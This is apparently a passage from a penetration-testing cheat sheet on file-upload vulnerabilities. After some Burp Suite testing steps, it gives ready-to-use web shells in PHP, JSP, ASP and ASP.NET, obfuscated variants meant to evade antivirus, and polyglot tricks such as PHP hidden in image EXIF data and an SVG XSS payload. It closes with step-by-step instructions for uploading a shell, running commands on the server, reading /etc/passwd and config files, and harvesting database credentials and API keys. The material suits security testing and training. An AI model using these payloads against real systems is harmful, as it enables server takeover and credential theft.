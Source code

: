 - **Using Burp Suite for testing**
  - Capture upload requests with Burp Proxy
  - Use Burp Repeater to modify upload requests
  - Manipulate Content-Type headers and file content
  - Apply Burp Suite extensions:
    1. Upload Scanner for automated testing
    2. Content-Type Converter for MIME type manipulation
    3. Turbo Intruder for race condition testing
  - Test with Intruder for parameter fuzzing
  - Use Burp Collaborator for SSRF and XXE detection
  - Apply Burp's scanning profiles specific to file uploads
  - Observe responses for error messages that reveal server-side processing
  - Analyze file storage paths in responses

- **Creating malicious test files**
  - **Basic web shells**:
    - PHP: `<?php system($_GET["cmd"]); ?>`
    - JSP: `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
    - ASP: `<% eval request("cmd") %>`
    - ASP.NET: `<% Response.Write(new System.Diagnostics.Process().Start("cmd.exe", Request.QueryString["cmd"])); %>`
  
  - **Anti-virus evasion techniques**:
    - Encode the payload (base64) with appropriate decoder
    - PHP: `<?php system(base64_decode("Y21kIC9jIGRpcg==")); ?>`
    - Split payload into concatenated strings: `<?php $a="sy"; $b="st"; $c="em"; $d=$a.$b.$c; $d($_GET['cmd']); ?>`
    - Use alternative function calls: `<?php $_GET['x']($_GET['y']); ?>`
    - Use character encoding tricks: `<?php $a=chr(115).chr(121).chr(115).chr(116).chr(101).chr(109); $a($_GET[0]); ?>`
  
  - **Polyglot files**:
    - GIFAR (GIF + RAR): Begin with GIF89a header followed by payload
    - JPEG + PHP: Add PHP code to EXIF metadata: `exiftool -Comment="<?php system(\$_GET['cmd']);__halt_compiler(); ?>" image.jpg`
    - SVG + XSS: `<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>`
    - Valid PNG with PHP payload: Add PHP code after PNG end marker (IEND)
    - PDF + JavaScript: Create PDF with embedded JavaScript for XSS

- **Step-by-step exploitation techniques**

  - **Uploading basic web shells**
    1. **Simple PHP web shell**:
       - Step 1: Create a file called `shell.php` containing: `<?php system($_GET["cmd"]); ?>`
       - Step 2: Upload the file through the application's upload function
       - Step 3: If successful, locate the uploaded file (often in `/uploads/`, `/media/`, etc.)
       - Step 4: Access the file in a browser with a command: `https://vulnerable-site.com/uploads/shell.php?cmd=id`
       - Step 5: Verify code execution by checking the output
       - Example: `/uploads/shell.php?cmd=ls+-la` to list directory contents
       
    2. **One-liner file read shell**:
       - Step 1: Create a file with: `<?php echo file_get_contents('/etc/passwd'); ?>`
       - Step 2: Upload and access the file to read sensitive server files
       - Step 3: Extend to read application configuration files and source code
       - Step 4: Look for database credentials, API keys, and other secrets
       - Step 5: Use the information gathered for further exploitation
       - Example: Use `file_get_contents('../../../config.php')` to read configuration files
